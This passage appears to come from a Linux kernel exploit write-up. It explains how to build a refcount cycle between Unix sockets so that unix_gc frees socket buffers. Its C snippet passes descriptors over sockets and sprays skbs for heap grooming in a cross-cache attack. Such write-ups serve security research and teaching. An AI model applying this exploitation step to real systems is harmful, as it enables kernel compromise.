 ## Prepare refcount circle to make unix_gc free skbs
We need to make unix_gc detect a refcount circle and do garbage collection to clear selected unix_sockets' sk_receive_queue.
Init two pair unix sockets named A, B, C and D. A's unix_peer is B and C's unix_peer is D.
By send C to A to make B's sk_receive_queue hold a refcount of C.
By send B to D to make C's sk_receive_queue hold a refcount of D.
B and C become a refcount circle, and it will clear these sk_receive_queue when trigger unix_gc.

The following code snippet is to do such thing.
```C
			SYSCHK(socketpair(AF_UNIX, SOCK_STREAM, 0, fds));
			A = fds[0];
			B = fds[1];
			SYSCHK(socketpair(AF_UNIX, SOCK_STREAM, 0, fds));
			C = fds[0];
			D = fds[1];

			// Max the socket send/recv buffer, because we need to spray a certain number skb
			// For heap cross cache attack
			size_t val = 0x400000;
			SYSCHK(SYSCHK(setsockopt(D, SOL_SOCKET, SO_SNDBUF, &val, 4)));
			SYSCHK(SYSCHK(setsockopt(A, SOL_SOCKET, SO_SNDBUF, &val, 4)));
			SYSCHK(SYSCHK(setsockopt(B, SOL_SOCKET, SO_RCVBUF, &val, 4)));
			SYSCHK(SYSCHK(setsockopt(C, SOL_SOCKET, SO_RCVBUF, &val, 4)));

			// Spray a lot skb a head for heap feng shui
			*(int *)CMSG_DATA(cmsg) = C;
			for (int i = 0; i < 0x100; i++)
				SYSCHK(sendmsg(D, &msg, 0));

			// Make B's recv buffer hold C, datapipe and signalpipe refcount
			cmsg->cmsg_len = CMSG_LEN(sizeof(int) * 3);
			msg.msg_controllen = cmsg->cmsg_len;
			((int *)CMSG_DATA(cmsg))[0] = signalpipe[1];
			((int *)CMSG_DATA(cmsg))[1] = datapipe[1];
			((int *)CMSG_DATA(cmsg))[2] = C;
			SYSCHK(sendmsg(A, &msg, 0));

			// decrease unnecessary refcount
			close(signalpipe[1]);
			close(datapipe[1]);

			// Make C's recv buffer hold B refcount
			cmsg->cmsg_len = CMSG_LEN(sizeof(int));
			msg.msg_controllen = cmsg->cmsg_len;
			*(int *)CMSG_DATA(cmsg) = B;
			SYSCHK(sendmsg(D, &msg, 0));

			// Spray a lot skb at tail for heap feng shui
			*(int *)CMSG_DATA(cmsg) = C;
			for (int i = 0; i < 0x100; i++)
				SYSCHK(sendmsg(D, &msg, 0));

			// decrease unnecessary refcount
			close(B);
			close(C);
```
